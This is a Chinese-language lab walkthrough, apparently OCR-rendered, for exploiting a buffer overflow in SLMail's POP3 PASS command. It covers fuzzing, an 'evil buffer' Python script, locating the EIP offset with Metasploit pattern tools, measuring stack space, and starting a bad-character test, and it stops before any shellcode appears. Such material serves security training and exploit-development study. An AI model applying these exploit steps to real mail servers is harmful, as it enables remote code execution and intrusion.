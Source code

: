 以管理员权限运行SLMail和Immunity Debugger
Attach-SLMail
更改设置:右击-Appearance-font(all)-OEM fixed font   下方右击-Hex-Hex/ASCII(16bytes)
点击上方开始按钮后,在kail机运行:    python pop3-pass-fuzz.py
debugger显示 access violation when executing [41414141]-use Shift+F7/F8/F9 to pass exception to program 时,记录下此时的字节数   观察EBP和EIP的值,已被A(41)填充
在ESP上右击Follow in Dump,跳到内存查看


关闭debugger,重启slmail服务
```slmail-pop3.py
#!/usr/bin/python
# -*- encoding: utf-8 -*-

import socket
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

buffer = 'A' * 2700

try:
    print "\nSending evil buffer..."
    s.connect(('192.168.30.35',110))
    data = s.recv(1024)
    s.send('USER username' +'\r\n')
    data = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    print "\nDone!."
except:
    print "Could not connect to POP3!"
```
打开Immunity Debugger   Attach-SLMail,开始
在kail机运行:   python slmail-pop3.py
出现提示信息后,此时EIP也被A填充


使用msf-pattern_create模块,生成2700个字节的字符串:    msf-pattern_create -l 2700
用生成的字符串去替换slmail-pop3.py脚本的buffer参数
重启slmail服务和debugger,  python slmail-pop3.py
读出EIP的填充值,去生成的字符串中检索:   msf-pattern_offset -q 39694438    [例:]   Exact match at offset 2606
将slmail-pop3.py的buffer替换成:     buffer = "A" * 2606 + "B" * 4 + "C" * (2700-2606-4)
重启slmail服务和debugger,  python slmail-pop3.py
可以观察到,EIP的值已被B(42)填充


通常shellcode包含350-400个字节
重启slmail服务和debugger,
将slmail-pop3.py的buffer替换成:     buffer = "A" * 2606 + "B" * 4 + "C" * (3500-2606-4)
python slmail-pop3.py   观察到EIP仍被B填充,对ESP进行Follow in Dump,发现其已被填充成C(43)
算出此时栈中能利用的最大字节数: 0xA2D0 - 0xA128 = 0x1A8 = 424


发送从0x00-0xff字符来找出bad char,通常情况下,0x00都是bad char
重启slmail服务和debugger,修改脚本如下
```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
```